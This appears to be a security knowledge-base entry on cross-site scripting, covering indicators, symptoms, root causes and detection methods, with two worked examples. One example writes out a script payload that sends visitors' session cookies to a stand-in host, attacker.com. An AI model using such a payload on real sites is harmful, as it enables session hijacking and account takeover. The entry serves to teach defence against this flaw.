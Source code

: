 ```yaml
---
title: "Cross-Site Scripting Vulnerabilities"
description: "Inadequate input validation and output encoding allows attackers to inject malicious scripts that execute in users' browsers."
category: ['Security', 'Technical']
related_problems: ['input-validation-failures', 'output-encoding-issues', 'session-management-issues']
layout: problem
---
```


## Description

Cross-Site Scripting (XSS) vulnerabilities occur when web applications fail to properly validate user input or encode output, allowing attackers to inject malicious scripts that execute in other users' browsers. These vulnerabilities can lead to session hijacking, data theft, defacement, or other malicious activities performed in the context of the victim's browser session.

## Indicators ⟡

- User input displayed in web pages without proper encoding
- JavaScript code can be injected through form fields or URL parameters
- Dynamic content generation without input sanitization
- Client-side data validation without corresponding server-side validation
- User-generated content displayed without security filtering

## Symptoms ▲

- **Script Injection:** Malicious JavaScript code executed in user browsers
- **Session Token Theft:** Attackers stealing session cookies through injected scripts
- **Page Defacement:** Unauthorized modification of web page content
- **Phishing Attacks:** Fake login forms or content injected to steal credentials
- **Malicious Redirects:** Users redirected to attacker-controlled websites

## Root Causes ▼

- **Insufficient Input Validation:** User input not properly validated or sanitized before processing
- **Missing Output Encoding:** Dynamic content not encoded appropriately for the output context
- **Direct DOM Manipulation:** Client-side code directly inserting user data into the DOM
- **Inadequate Content Security Policy:** Missing or weak CSP headers allowing script execution
- **Server-Side Template Injection:** Template engines processing user input without proper escaping
- **Third-Party Component Vulnerabilities:** Vulnerable JavaScript libraries or frameworks

## Detection Methods ○

- **Input Validation Testing:** Test all input fields and parameters for script injection
- **Output Encoding Analysis:** Review how user data is displayed and encoded in responses
- **Automated Security Scanning:** Use security scanners to identify potential XSS vulnerabilities
- **Code Review for XSS Patterns:** Review code for common XSS vulnerability patterns
- **Content Security Policy Testing:** Verify CSP effectiveness in preventing script injection

## Examples

A blog application displays user comments directly in HTML without encoding special characters. An attacker posts a comment containing `<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>` which executes in every visitor's browser, sending their session cookies to the attacker's server. The attacker can then use these session cookies to impersonate users and access their accounts. Another example involves a search function that displays the search term in the results page like "Results for: [user input]". An attacker crafts a malicious URL with JavaScript in the search parameter. When victims click the link, the script executes and can perform actions on behalf of the user, such as changing account settings or making unauthorized transactions.